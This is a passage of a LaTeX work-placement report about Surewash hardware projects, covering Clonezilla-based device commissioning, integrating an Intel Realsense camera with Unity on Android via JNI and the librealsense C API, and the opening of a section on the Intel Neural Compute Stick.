%   Production Optinmisation                                            %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\part{Production Optimisation}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%   Production Optinmisation                                            %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\section{Motivation and background}
Although a large portion of time spent in Surewash involves the continuous development and maintenance of their products, a critical function of the company is the actual manufacturing of the {\slshape ELITE} and {\slshape GO}, hereafter the {\slshape process}. A lot of the process has been outsourced. As an example, the computer for the {\slshape GO} is a {\slshape Microsoft Surface Pro}. This goes inside a hard plastic casing which is manufactured by a plastics manufacturer in China. The assembly of all the hardware is done by another company in Dublin.

The final stage of the process involves installing all relevant software, hereafter called commissioning. In the commissioning stage.The computers come pre-installed with {\slshape Windows 10}, but there are configuration steps that are required to be completed before the product is shipped to the end user. As a summary of these steps are as follows:
\begin{enumerate}
    \item Turn on the computer and go through the steps of the {\slshape Windows 10} setup wizard.
    \item Change some of the default {\slshape Windows 10} settings (e.g. turn off all the notification types, change some battery settings, change the wallpaper, etc)
    \item Allow {\slshape Windows Update} to complete all relevant updates (this can take up to several hours sometimes)
    \item Connect a Surewash USB key, open the Surewash commissioning app, let {\slshape Windows 10} install the .NET framework (can take 10-20 minutes)
    \item Complete each of the steps specified in the commissioning app, but ignore some of the steps.
\end{enumerate}

The steps in the commissioning app require a lot of user input to implement correctly. In short, the commnissioning process is long, laborious, and prone to human error. This leads problems both in quality control, and in wasted time for Surewash employees. While there is certainly scope to streamline the current process, it is my opinion that the entire process needs to be rethought.

\section{A new framework for commissioning}
    \subsection{Introduction}
    The concept of preparing a `golden image' of a device's hard drive, and then rolling that image out to other computers is a well documented, and common practice amongst organisations (\cite{msftdeployment}). In short, one computer is set up to the desired end state, it is then booted into a special operating system, where the contents of one or more partitions in the hard drive/ SSD is copied, this copy is then transferred onto other devices, either manually, or by some automatic method, such as using a PXE server.

    There are various solutions that achieve this, both free and paid. Clonezilla is the solution that was chosen to achieve this \cite{clonezilla}. It was chosen because it is free (GPL License), and runs on Debian, which is also free.
    \subsection{The new process}
    The painstaking steps of commissioning now need only happen on one computer, but with some caveats. There are a few steps that involve unique input, that is, the input of unique passwords and IDs. A fundamental limitation of Clonezilla, and indeed any other similar solution, is that it cannot perform these steps.
\newpage
\setcounter{section}{0}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%   Realsense Camera with Unity and Android                             %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\part{Realsense Camera}
\label{part:rscam}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%   Realsense Camera with Unity and Android                             %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\section{Motivation and background}
Surewash's current product range is successful in what it does, but they have key limitations. For the {\slshape ELITE} and {\slshape GO}, they are expensive, and for {\slshape Pocket}, its functionality is limited because it can only use a smartphone camera which has low resolution and is generally unpredictable. To expand Surewash's market reach, the strategy that has been adopted is to develop a cheaper version of the {\slshape GO}. At present, the core hardware in this device is a Microsoft Surface Pro, which is expensive. The core strategy therefore to reduce the cost of this device is to use another computer that is small, and cheap. One problem though is that cheap Windows devices are not that common, and when they are, they are not able to handle the workload required to run Surewash software. The core issue with hardware costs is that a Windows License and Intel processor together are expensive. A cheaper solution is to use an ARM-based device running a free operating system, such as Android.

{\slshape Pocket} was developed for Android, which is a free operating system, so it would make sense to develop this product using the Android platform, since it's well supported, and there is experience in-house with developing apps for it. Unity is used as a cross-platform framework to develop the iOS and Android variants of {\slshape Pocket}, so if Surewash was to develop using Android, Unity would be the preferred medium to develop the app with. The main issue with {\slshape Pocket}, mentioned earlier, is that it only uses a front facing mobile camera, which limits the scope for what can be seen from a Computer Vision perspective. {\slshape ELITE} and {\slshape GO} are different, they use a special camera, developed by Intel that not only gives an RGB camera feed, but also a depth feed, which says how far a particular pixel is from the camera. This camera thus provides more information that can be used to get a better insight into whether someone is washing their hands correctly, or not.

The crux of the problem that this project is meant to address is thus: find a way to get an Intel Realsense camera to work on Android, using Unity. At a first glance, this would not seem to be a particularly difficult challenge, but due to the niche nature of such a task, there wasn't much information readily available on the topic, and so it was quite involved in my opinion.

\section{Underlying concepts}
This project makes use of a combination of C/C++, Java, and C sharp code. There are some key concepts that distinguish these languages, which is core to understanding how the end solution works, as well as understanding the performance of the overall solution.
    \subsection{Definitions}
        \subsubsection{Compiler} A compiler is a programme that converts code written in one language, into code of another language. This frequently implies the conversion of human-readable code such as C to machine code, such as X86 machine code, but it can also be to other languages.
        \subsubsection{Virtual Machine (VM)} A VM is a programme that emulates the hardware of a computer system. In the context of this project, VM shall refer specifically to a Process Virtual Machine, which is a programme that executes programmes in a platform-independent manner.
        \subsubsection{Ahead-Of-Time Compilation (AOT)} AOT is the concept of compiling computer code from one language into native machine code before it is run. For example, if a programme is running on an X86 processor, the AOT compiler would compile the computer code into native X86 instructions and package it into some file containing the relevant binary instructions for execution at a later time.
        \subsubsection{Just-In-Time Compilation (JIT)} JIT is the concept of compiling computer code from one language into native code during the execution of a programme.
        % \paragraph{Execution Model} specifies the behavior of a programming language.
        % \paragraph{Runtime environment}
        \subsubsection{Bytecode} Bytecode is an abstract instruction set that is designed to be efficiently interpreted into native instructions. As such, it means that it can be run on any platform using a JIT or AOT compiler.
        \subsubsection{Java Virtual Machine} Java Virtual Machine is a virtual machine that executes Java bytecode using a JIT compiler.
        \subsubsection{Java Native Interface (JNI)} JNI is a specification for interfacing between native code, and Java code.
        \subsubsection{Dalvik Bytecode} Dalvik bytecode is stored in a .DEX file and is compiled from Java Bytecode. It was originally executed in a JIT called Dalvik on Android, but this is no longer the case in modern versions of Android. 
        \subsubsection{Android Runtime (ART)} is the environment in which applications are executed on Android. When installing an application on Android, ART compiles code from DEX format to native machine code. See \cite{androidart}.
        % \subsubsection{Name mangling}
        % \subsubsection{Geometric transformation} According to \cite[pg.84]{usiskin2003mathematics}, "A geometric transformation is a function whose domain and range are sets of points. Most often the domain and range of a geometric transformation are both R2 or both R3. Often geometric transformations are required to be 1-1 functions, so that they have inverses". In the context of image processing, it can be used among other things to: translate, rotate, scale, and skew an image.

    \subsection{Programming Languages}
        \subsubsection{Java}
        Java, alongside Kotlin (which isn't used in this project), is the main programming language for writing Android applications. It is general-purpose, class based, and object-oriented. It was one of the first languages to introduce the concept of "compile once, run anywhere", meaning that its compiled code can run on any platform, regardless of processor architecture, since the compiled code, bytecode, is run in an abstract virtual machine. Its syntax is largely influenced by C++, but it doesn't have access to low-level memory facilities, instead, it is garbage collected. While the Java code is compiled to Java bytecode for Android, it isn't executed in a Java virtual machine, see the section on Android Runtime.
        \subsubsection{C}
        C is a general-purpose, imperative programming language. Its instructions map very closely to typical machine instructions, which means that it can execute fast (in comparison to code like that of Python), especially when compared to Java. C is needed in this project because JNI does not support C++ name mangling.
        \subsubsection{C++}
        C++ is built on top of C, and supports most of the features of C. It extends C by adding support for object oriented programming, generics, a standard template library for common algorithms, cross-platform thread support, and optional memory management.
        \subsubsection{C sharp}
        C sharp is similar to Java in many ways. It is a part of Microsoft's Common Language Infrastructure (CLI) specification which allows different programming languages to execute on the same virtual machine, using the same underlying data-types which makes it easy to integrate libraries written in other CLI languages. In this project, it executes on Android using the Mono Project Runtime, which is an open-source implementation of CLI (\cite{monoproject}).

    \subsection{Programming Environments}
    The core environment of this project is the Android Operating System, and by extension, the Android Runtime. However, sitting on top of that is the Unity Game Engine.
        \subsubsection{Android}
        The Java programming language forms the core of Android applications. Android does not use a Java Virtual Machine, and as such, it does not implement the full standard library of Java. Android instead has two different variants of runtimes for executing Java code. Firstly, Dalvik, a register-based virtual machine, which is now discontinued. Dalvik was designed with mobile development in mind. Originally, when Android was being developed in the mid-2000s, mobile devices were very limited in processing power and RAM. Java bytecode is translated to Dalvik bytecode, which is then run in a JIT compiler at runtime. Modern Android devices use the Android Runtime, which also takes in Dalvik Bytecode, but it then compiles this to native code when the application is being installed (i.e. it uses AOT compilation). This uses more storage space than Dalvik, but also means that it executes faster.

        In the context of this project, it is an important consideration, since the Odroid board officially supports Android KitKat, which still uses the Dalvik VM. The Realsense library is CPU-intensive, and the additional overhead of the Surewash software means that any potential performance gain is crucial.
        \subsubsection{Unity}
        Unity is primarily a game engine, designed for writing modern 3D games. While the engine itself is written in C++, the end programmer writes C sharp scripts for game logic. The execution of C sharp is similar to Java's in so far as they are both compiled to bytecode, which is then executed in a VM. Unity uses the Mono Framework to execute C sharp code.
    
    \subsection{Hardware}
        \subsubsection{Intel Realsense D435}
        This is the camera that Surewash uses to monitor the user washing their hands, pictured in Figure \ref{fig:rs_cam}. It produces two different kinds of data feeds which can be used in conjunction with each other. Firstly, it produces an up to 1920x1080 pixel RGB feed at up to 30 frames/second at a field-of-view of 69.4 degrees x 42.5 degrees x 77 degrees. It also has a feed of depth pixels at a resolution of up to 1280x720 pixels at up to 90 frames/second and a field-of-view of 87 degrees x 58 degrees x 95 degrees. It transfers both of these feeds concurrently through a USB‑C 3.1 Gen 1 connection. See (\cite{d435}) for more information.
        \begin{figure}[h]
            \centering
            
\includegraphics[height=100pt]{../img/rs_cam_2.jpg}
            \caption[]{Intel Realsense D435\footnotemark}
            \label{fig:rs_cam}
        \end{figure}
        \footnotetext{Obtained from: https://finance.yahoo.com/news/intel-realsense-depth-camera-d415-161526092.html (accessed: 30-07-2019)}

        \subsection{Hardkernel Odroid XU4}
        This is a single board computer (pictured in Figure \ref{fig:odroid}), similar in concept to a Raspberry Pi, but with a faster CPU \cite{odroid_xu4}. It contains a Samsung Exynos5 Octa SOC which contains an quad-core ARM Cortex-A15 2Ghz CPU and a quad-core ARM Cortex-A7 1.3GHz. It has 2GB of LPDDR3 RAM at 933MHz. Crucially, it contains a USB 3.0 hub which is required to interact with the Intel Realsense camera. It contains a relatively large heatsink which improves performance since it reduces the need for thermal throttling.

        \begin{figure}[h]
            \centering
            
\includegraphics[height=100pt]{../img/odroid.jpg}
            \caption[]{Odroid XU4\footnotemark}
            \label{fig:odroid}
        \end{figure}
    
    \subsection{Software}
        \subsubsection{Git}
        This is a GPL-licensed programme that allows software developers to coordinate work by hosting code in a distributed version control system. It allows developers to work on source code independently and then merge the codebase. It also allows for tracking of different files.
        \subsubsection{Github}
        The library for the Realsense camera is hosted in source code format on a website called Github. The code can be accessed on the website either using a web browser and downloading the code, or by using Git to clone the repository.
        \subsubsection{Intel Realsense Library}
        Provides a list of APIs to interact with the Realsense camera in both C and C++. It also provides software wrappers containing starter code for various platforms including Android, Unity, Windows, Python et cetera. It has an Apache v2 license.
        \footnotetext{Obtained from: https://dn.odroid.com/homebackup//201506171531272562.jpg (accessed: 30-07-2019)}

\section{The solution}
    On a high level, the solution involves making an API calling sequence to the Realsense library to produce a texture, and Unity then renders this texture. There are two threads in operation, using a producer-consumer model. The camera thread is the producer thread, and it is operating within the Realsense library, polling the camera for data and filling a buffer with frames. The Unity thread acts as the consumer, taking data from the buffer and rendering it as a texture. With the current setup, the camera produces frames faster than Unity can consume them, and since the aim is to display a live video feed, the extra data produced by the camera that Unity cannot display in time needs to be discarded, or else the buffer becomes full and the whole system crashes.

    \subsection{Realsense C API sequence}
    The Unity codebase does not interact directly with the Realsense C API, instead the relevant calls are done through Java code which makes calls to the Realsense library using JNI. The Java code is packaged into an Android library, which Unity then makes relevant calls to. This is because certain OS calls are required to allow a USB device to correctly interface, it may have been possible to have a cleaner solution, but given the time constraints on the project, this proved to be a workable solution.

    For every method mentioned below, an error variable can be passed in, which if not NULL after the function call, can be passed into an error handler which returns an enumerated error type, which can be any of the following:

    \begin{lstlisting}[style=CStyle]
typedef enum rs2_exception_type
{
    RS2_EXCEPTION_TYPE_UNKNOWN,
    RS2_EXCEPTION_TYPE_CAMERA_DISCONNECTED,      /**< Device was disconnected, this can be caused by outside intervention, by internal firmware error or due to insufficient power */
    RS2_EXCEPTION_TYPE_BACKEND,                  /**< Error was returned from the underlying OS-specific layer */
    RS2_EXCEPTION_TYPE_INVALID_VALUE,            /**< Invalid value was passed to the API */
    RS2_EXCEPTION_TYPE_WRONG_API_CALL_SEQUENCE,  /**< Function precondition was violated */
    RS2_EXCEPTION_TYPE_NOT_IMPLEMENTED,          /**< The method is not implemented at this point */
    RS2_EXCEPTION_TYPE_DEVICE_IN_RECOVERY_MODE,  /**< Device is in recovery mode and might require firmware update */
    RS2_EXCEPTION_TYPE_IO,                       /**< IO Device failure */
    RS2_EXCEPTION_TYPE_COUNT                     /**< Number of enumeration values. Not a valid input: intended to be used in for-loops. */
} rs2_exception_type;\end{lstlisting}

    First, a `context' needs to be created, among other things, this ensures that the correct API version is being used for the camera being used.
    \begin{lstlisting}[style=CStyle]
rs2_context* rs2_create_context(int api_version, rs2_error** error);\end{lstlisting}

    A `pipeline' can then be created using this `context'. This creates a new thread than handles all relevant interfacing with the camera.

    \begin{lstlisting}[style=CStyle]
rs2_pipeline* rs2_create_pipeline(rs2_context* ctx, rs2_error ** error);\end{lstlisting}   

    If a pipeline is created, it does not start actual streaming from the device. This is done with one of the following methods. The first method starts streaming without any configuration, i.e. it will use all stream types and use a default resolution, and framerate. These can be configured however and optimised for the particular setup, and this is desirable in the context of this project since a low-powered device, with a low screen resolution is being used, where a high framerate is not necessary. The configuration should be deleted after starting the pipeline.

    \begin{lstlisting}[style=CStyle]
// Start a pipeline
rs2_pipeline_profile* rs2_pipeline_start(rs2_pipeline* pipe, rs2_error ** error);
rs2_pipeline_profile* rs2_pipeline_start_with_config(rs2_pipeline* pipe, rs2_config* config, rs2_error ** error);

// Creating a pipeline configuration
rs2_config* rs2_create_config(rs2_error** error);
void rs2_delete_config(rs2_config* config);
void rs2_config_enable_stream(rs2_config* config,
    rs2_stream stream,
    int index,
    int width,
    int height,
    rs2_format format,
    int framerate,
    rs2_error** error);\end{lstlisting}

    The \inlinecode{CStyle}{rs2_wait_for_frames} method can now be called. This method allocates a block of memory for a set of time-synchronised frames from the camera. What the set contains depends on the type of configuration, e.g. if only the depth and colour streams were selected, \inlinecode{CStyle}{rs2\_frame*} will point to two frames. The individual frames can then be extracted using the \inlinecode{CStyle}{rs2\_extract\_frame} method, providing an integer index. The type of frame must then be determined using the \inlinecode{CStyle}{rs2\_get\_stream\_profile\_data} method, the first parameter {\slshape mode} is found by calling \inlinecode{CStyle}{rs2\_get\_frame\_stream\_profile}, the second parameter is the \inlinecode{CStyle}{rs2\_frame*} value, the other parameters are output values for information about the frame.

    \begin{lstlisting}[style=CStyle]
// Get individual frames
rs2_frame* rs2_pipeline_wait_for_frames(rs2_pipeline* pipe, unsigned int timeout_ms, rs2_error ** error);
rs2_frame* rs2_extract_frame(rs2_frame* composite, int index, rs2_error** error);

// Discover type of frame
const rs2_stream_profile* rs2_get_frame_stream_profile(const rs2_frame* frame, rs2_error** error);

void rs2_get_stream_profile_data(const rs2_stream_profile* mode, 
    rs2_stream* stream, 
    rs2_format* format, 
    int* index, 
    int* unique_id, 
    int* framerate, 
    rs2_error** error);\end{lstlisting}

    For each frame from the set of frames, the following method is called to locate the raw data of the frame. The size of the data is determined by finding the product of \inlinecode{CStyle}{rs2\_get\_frame\_width}, \inlinecode{CStyle}{rs2\_get\_frame\_height}, and \inlinecode{CStyle}{rs2\_get\_frame\_bits\_per\_pixel}. The format of the data should be known when the \inlinecode{CStyle}{rs2\_get\_stream\_profile\_data} method was called, so, for example, if the format is RGBA8, each pixel will be four bytes wide (one byte per channel for red, blue, green, and alpha), and if the resolution is 1920x1080, the pointer returned by \inlinecode{CStyle}{rs2\_get\_frame\_data} will point to a block of memory 8,294,400 bytes large.

    \begin{lstlisting}[style=CStyle]
const void* rs2_get_frame_data(const rs2_frame* frame, rs2_error** error);
int rs2_get_frame_width(const rs2_frame* frame, rs2_error** error);
int rs2_get_frame_height(const rs2_frame* frame, rs2_error** error);
int rs2_get_frame_bits_per_pixel(const rs2_frame* frame, rs2_error** error);\end{lstlisting}

    Each frame must be released when it is no longer needed. When the camera is no longer needed for streaming, it must be explicitly stopped, and the pipeline deleted too.
    \begin{lstlisting}[style=CStyle]
void rs2_release_frame(rs2_frame* frame);
void rs2_pipeline_stop(rs2_pipeline* pipe, rs2_error ** error);
void rs2_delete_pipeline(rs2_pipeline* pipe);\end{lstlisting}

    % The algorithm that Surewash uses requires both a colour, and depth stream. It needs these streams to be the same resolution, but the Realsense camera gives these streams at different resolutions. A geometric transformation to scale one of the streams in terms of the other is therefore required to

    \subsection{Java API sequence}
    For each method described above, there is a corresponding JNI wrapper call that calls these methods. For example, the following JNI call is used to create a Pipeline instance. It is interesting to note that since Java does not support pointers in the same way as C pointers, the C pointer is stored in a Java {\slshape long} variable. This can be seen as analogous to storing a C pointer in a C {\slshape long long}, and in this case, the C compiler would throw an error, since it violates the C type system. A type system is important for disciplined and safe programming this should be avoided as \cite{pierce2002types} argues, but there is no way to avoid this within JNI.
    \begin{lstlisting}[style=CStyle]
// Copyright(c) 2015 Intel Corporation.
JNIEXPORT jlong JNICALL Java_com_intel_realsense_librealsense_Pipeline_nCreate(JNIEnv *env, jclass type, jlong context) {
    rs2_error* e = NULL;
    rs2_pipeline* rv = rs2_create_pipeline(context, &e);
    handle_error(env, e);
    return rv;
}\end{lstlisting}

    In the Java code, the JNI calls are grouped into classes based on the type data, so there is a class corresponding to a Pipeline, FrameSet, Frame etc. The following is an example of the JNI call above (note that the other methods have been removed for the sake of brevity).

    \begin{lstlisting}[style=CSharpStyle]
public class Pipeline extends LrsClass{
    public Pipeline(){
        RsContext ctx = new RsContext();
        mHandle = nCreate(ctx.getHandle());
    }
    private static native long nCreate(long context);
}\end{lstlisting}

    The {\slshape native} keyword in a function declaration says that its definition is in C code.

    The Android wrapper only contained a subset of the entire functionality of the Realsense library. One of the requirements of this project was for the ability to align a depth and colour frame. The Realsense camera does not give the depth and colour frames at the same resolution, so this functionality processes the camera feed and scales one of the feeds to the other. This functionality was not in the Android Wrapper, so this was added by putting additional JNI calls in a similar manner to Pipeline.

    \subsection{API sequence within Unity}
    Appendix \ref{appendix:rsunitysol} is the entire C sharp solution required to access the camera. Unity has a Java interface called {\slshape AndroidJavaObject} (\cite{unityandroidjavaobject}), this means that there is potentially an unnecessary bottleneck in that instead of calling the Realsense library directly, it is done via the Java code. This is particularly problematic given that for each colour and depth frame, they are first passed through three buffers. Firstly, a buffer within the Realsense code takes the data from the camera, this data is then copied from that buffer to a buffer within the Java code, and then the data is copied from the Java buffer into another buffer within the Unity code (see lines 56-64 below). Given that this data is uncompressed, it represents a large, potentially unnecessary overhead. In practice, this was not a problem, since a smooth frame rate was achieved, and finding a solution to that problem would have taken too much time.

    Although C sharp is a garbage-collected language, this does not extend to the {\slshape AndroidJavaObject}, so the resources have to be freed manually using the {\slshape Dispose()} method.
    

\section{Conclusion}
    \subsection{Learning Outcomes}
        \subsubsection{Programme design}
            \paragraph{Build tools}
            I learned about build tools such as Cmake, and Gradle. I learned that they are examples of programmes that can be used to automate the build process of a programme and library. I gained experience in using them, and learned about the importance of using them in large projects.
            \paragraph{Debugger}
            I learned how to use the Android debugger within Android Studio. I learned what breakpoints are, and how to use them as well logs to assist with debugging.
            \paragraph{Understanding how to read and understand other people's code}
            While I may already have a good understanding of how to programme in, say C, and C++, that doesn't necessarily mean that I have the skills to read other people's code and understand what's going on there. I learned how to trace through different function calls, and using breakpoints in a debugger to understand how a piece of code works.
    % \subsection{Reflection}
        
\newpage
\setcounter{section}{0}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% Intel Neural Compute Stick 2                                          %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\part{Neural Networks}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% Intel Neural Compute Stick 2                                          %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\section{Motivation and background}
The motivation of this project is a logical continuation of part 4 with the Intel Realsense Camera. In the previous project, a Hardkernal Odroid XU4 was used because it is comparitevly cheaper than existing hardware used for Surewash products, the issue is that this is still comparitevly expensive in comparison to a Raspberry Pi (a casual search on Amazon suggests that it is at least 3-4 times more expensive). The issue with the Raspberry Pi is that its hardware is not capable of running the Surewash algorithm in a time critical setting, which is of course needed, since one of the key selling points of Surewash is that it can give live feedback to the user. A potential solution to this problem is using an Intel Neural Compute Stick, hereafter NCS. This is a low-power device that can interface with a Raspberry Pi via the USB protocol. The cornerstone of the NCS is the Myriad chip.

The Myriad chip is described by Intel as a 'Vision Processing Unit', hereafter VPU (not to be confused with a Video Processing Unit). One might already be familiar with the concept of a CPU, or Central Processing Unit, which is a microchip designed for general purpose computing, and a GPU, or Graphics Processing Unit, which is specifically optimised for {\slshape embarrassingly parallel} calculations, such as graphics processing, hence the name. The VPU is similar in idea to a GPU in that it is optimised for parallel computing, except that it is specifically designed for low-power situations \cite{7024073}, and it is particularly suited for inferring convolutional and fully-connected neural networks on mobile devices.

The current Surewash algorithm uses traditional computer vision methods which are not well suited for a device like the NCS, and so the algorithm for processing hand gestures will have to be completely rethought in order to work on the NCS.

\section{Underlying concepts}
    \subsection{Graphs}
    A graph is a is a mathematical concept where a series of nodes are connected together by vertices \cite{chartrand2010graphs}. A classical example of graph theory theory in the real world would be for computer-aided map directions, locations can be nodes, and roads vertices. A computer could give directions based on this graph using {\slshape Dijkstra's Algorithm} \cite{dijkstra1959note}.

    \begin{figure}[h]
        \centering
